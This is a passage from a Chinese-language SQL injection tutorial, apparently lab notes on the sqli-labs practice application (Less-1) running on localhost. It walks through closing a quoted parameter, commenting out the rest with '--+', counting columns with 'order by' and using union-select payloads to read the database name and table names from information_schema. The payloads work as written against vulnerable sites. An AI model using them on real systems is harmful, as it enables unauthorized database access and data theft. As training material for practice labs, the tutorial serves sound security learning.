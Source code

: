 上述空格等某些符号在输入后会转化成%20这种奇怪的东西，是URL编码的结果，有时候也会被利用。

这个时候，就可以通过在数字后方补齐单引号，跟上语句后，再将后方的单引号注释掉，就可以做到正常注入了

![image-20200823191705162](SQL注入.assets/image-20200823191705162.png)

一般会选择利用“--+” 或者“#” 或  “%23” （#的URL编码结果）

实操一下（代码均为省略前面部分内容：http://127.0.0.1/sqli-labs-master/Less-1/?id=）

```mysql
1 order by 100000
```

结果正常输出，说明存在闭合。	尝试在1后方加  ’   或者   “，注意在结尾加上--+注释掉多余的闭合

```mysql
1' order by 100000--+
```

不存在该列，说明后面的语句已经被正常引用了。	接下来通过不断尝试可以得知字段数为   3

```mysql
1' order by 3--+
```

正常输出。				就可以开始进行搜集信息了。

```mysql
-1‘ union select 1,2,3 --+
```

输出的结果为name:2  ;  password:3 ;   说明输出为第二和第三个字段。	任选其一获得数据库名

```mysql
-1’ union select 1,2,database() --+
```

可知当前的数据库名为  security。	根据数据库名来找所存在的表

```mysql
-1' union select 1,2,(select group_concat(table_schema) from information_schema.tables) --+
```

可以获得对方所有的数据库值，在其中再挑选最像有flag的。（本题上述payload无意义）

```mysql
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'--+
```

可以获得当前所在数据库中的所有表名，并且展示在password栏中。
